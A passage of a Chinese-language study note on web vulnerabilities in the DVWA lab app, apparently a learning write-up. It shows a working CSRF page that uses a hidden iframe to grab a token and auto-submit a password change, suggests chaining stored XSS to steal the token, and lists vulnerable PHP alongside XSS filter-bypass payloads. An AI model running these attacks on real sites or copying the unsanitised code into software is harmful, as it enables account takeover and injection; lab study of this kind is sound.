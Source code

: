 			function attack()

		  {

		   document.getElementsByName('user_token')[0].value=document.getElementById("hack").contentWindow.document.getElementsByName('user_token')[0].value;

		  document.getElementById("transfer").submit(); 

		  }

		</script>

		 

		<iframe src="http://192.168.153.130/dvwa/vulnerabilities/csrf" id="hack" border="0" style="display:none;">

		</iframe>

		 

		<body onload="attack()">

		  <form method="GET" id="transfer" action="http://192.168.153.130/dvwa/vulnerabilities/csrf">

		   <input type="hidden" name="password_new" value="password">

			<input type="hidden" name="password_conf" value="password">

		   <input type="hidden" name="user_token" value="">

		  <input type="hidden" name="Change" value="Change">

		   </form>

		</body>
		```
	
攻击思路是当受害者点击进入这个页面，脚本会通过一个看不见框架偷偷访问修改密码的页面，获取页面中的token，并向服务器发送改密请求，以完成CSRF攻击。
然而理想与现实的差距是巨大的，这里牵扯到了跨域问题.

所以需要用xss攻击，先获取token：

- 现在这个网站一个类似留言板块进行存储型XSS攻击
- 其他人访问这个页面，会触发这个XSS发送token（或者直接触发CSRF的脚本）
- 拿到token后就可以进行CSRF


### 方案：
每次修改密码时，带原始密码

## 4. 跨站脚本攻击(XSS)

### 原因：
没有对输入进行检测

```
# 反射型
 echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>'; 
# 存储型（发表评论）
$message = trim( $_POST[ 'mtxMessage' ] ); 
$name    = trim( $_POST[ 'txtName' ] ); 
$query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );"; 

 输入:
 <script>alert(/xss/)</script>
 <sc<script>ript>alert(/xss/)</script>
 <ScRipt>alert(/xss/)</script>
 <img src=1 onerror=alert(/xss/)>
```


  [1]: http://static.zybuluo.com/ranger-01/o6wgtv1pqeh873bozrg0l6qy/image_1c6uo5iug1tve3iovg51jk5111u9.png
  [2]: http://static.zybuluo.com/ranger-01/nqvybqwl145cy6yvor399hxj/image_1c709mj4k1sbtm5n1cbvnb81gs4m.png
  [3]: http://static.zybuluo.com/ranger-01/zdtkgh5fvwcajzyrqax8588b/image_1c71foli1q44lk519v6poe145213.png
  [4]: http://static.zybuluo.com/ranger-01/58pq7gdh9uin3414uxylgdcn/image_1c71g3nji8nc1jggen8fmf19p71g.png